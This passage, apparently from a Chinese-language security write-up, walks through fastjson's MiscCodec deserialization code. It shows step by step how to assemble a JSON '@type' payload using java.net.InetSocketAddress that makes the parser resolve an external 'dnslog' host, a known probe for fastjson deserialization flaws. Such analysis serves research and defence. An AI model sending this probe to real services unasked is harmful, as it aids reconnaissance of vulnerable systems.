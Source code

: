             case 26:
                return "hex";
            default:
                return "Unknown";
            }
        }
    }

构造这个payload需要分两步，第一步我们需要让代码执行到1处，这一路解析器要接收的字符在代码已经标好。按照顺序写就是`{"@type":"java.net.InetSocketAddress"{"address":`

    //com.alibaba.fastjson.serializer.MiscCodec#deserialze
    public <T> T deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) {
            JSONLexer lexer = parser.lexer;
            String className;
            if (clazz == InetSocketAddress.class) {
                if (lexer.token() == 8) {
                    lexer.nextToken();
                    return null;
                } else {
                    // 12 ---> {
                    parser.accept(12);
                    InetAddress address = null;
                    int port = 0;

                    while(true) {
                        className = lexer.stringVal();
                        
                        lexer.nextToken(17);
                        // 字段名需要为address
                        if (className.equals("address")) {
                            // 17 ---> :
                            parser.accept(17);
                            // 1. 我们需要让解析器走到这里
                            address = (InetAddress)parser.parseObject(InetAddress.class);
                        } 
                        ...
                    }
                }
            } 
            ...
    }

`parser.parseObject(InetAddress.class)`最终依然会，调用`MiscCodec#deserialze()`方法来序列化，这里就来到了我们构造payload的第二步。第二步的目标是要让解析器走到`InetAddress.getByName(strVal)`。解析器要接受的字符在代码里标好了，并按顺序写就是`,"val":"http://dnslog"}`。

    //com.alibaba.fastjson.serializer.MiscCodec#deserialze
    public <T> T deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) {
            JSONLexer lexer = parser.lexer;
            String className;
            // 序列化的是InetAddress.class类，走else流程
            if (clazz == InetSocketAddress.class) {
                ...
            } else {
                Object objVal;
                if (parser.resolveStatus == 2) {
                    parser.resolveStatus = 0;
                    // 16 ---> ,
                    parser.accept(16);
                    if (lexer.token() != 4) {
                        throw new JSONException("syntax error");
                    }
                    // 字段名 ---> val
                    if (!"val".equals(lexer.stringVal())) {
                        throw new JSONException("syntax error");
                    }
